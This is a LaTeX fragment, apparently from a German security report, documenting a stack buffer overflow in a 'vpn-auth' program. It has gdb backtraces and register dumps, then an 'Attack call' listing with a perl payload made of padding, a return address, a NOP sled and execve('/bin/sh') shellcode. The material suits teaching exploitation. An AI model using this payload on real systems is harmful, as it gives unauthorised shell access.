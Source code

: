 \documentclass[12pt]{article}
\begin{document}
\begin{lstlisting}[caption={Suche nach der Position der Zieladresse},label=aimaddressPlace]
0x080485bf in main ()
Current language:  auto; currently asm
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0xb7ef644e in strncpy () from /lib/i686/nosegneg/libc.so.6
(gdb) bt
#0  0xb7ef644e in strncpy () from /lib/i686/nosegneg/libc.so.6
#1  0x080485af in sanitize_input ()
#2  0x21212121 in ?? () 
#3  0x67676666 in ?? ()
#4  0x68686767 in ?? ()
#5  0x69696868 in ?? ()
#6  0x6a6a6969 in ?? ()
#7  0x6b6b6a6a in ?? ()
#8  0x6c6c6b6b in ?? ()
#9  0x6d6d6c6c in ?? ()
#10 0x62626d6d in ?? ()
#11 0x62626262 in ?? ()
#12 0x62626262 in ?? ()
#13 0x62626262 in ?? ()
#14 0x62626262 in ?? ()
#15 0x62626262 in ?? ()
#16 0x62626262 in ?? ()
#17 0x62626262 in ?? ()
#18 0x62626262 in ?? ()
...
#44 0xb7fecf00 in ?? () from /lib/ld-linux.so.2
Backtrace stopped: previous frame inner to this frame 
(corrupt stack?)
(gdb) \end{lstlisting}


\begin{lstlisting}[caption={Suche Zieladresse},label=aimaddress]
(gdb) info reg
eax            0x61	97
ecx            0xbffff1c8	-1073745464
edx            0x67676665	1734829669
ebx            0xb7fd8ff4	-1208119308
esp            0xbffff188	0xbffff188
ebp            0xbffff1a8	0xbffff1a8
esi            0x67676666	1734829670
edi            0x80484c0	134513856
eip            0xb7ef644e	0xb7ef644e <strncpy+46>
eflags         0x10202	[ IF RF ]
cs             0x73	115
\end{lstlisting}

\begin{lstlisting}[caption={Attack call},label=bufferattack]
./vpn-auth `perl -e 'print "Z"x516 . "\x80\xf4\xff\xbf" .
 "\x90"x1024 . 
 "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89
 \xe1\x99\xb0\x0b\xcd\x80"'`
\end{lstlisting}



\subsection{Single Sign On}
\end{document}
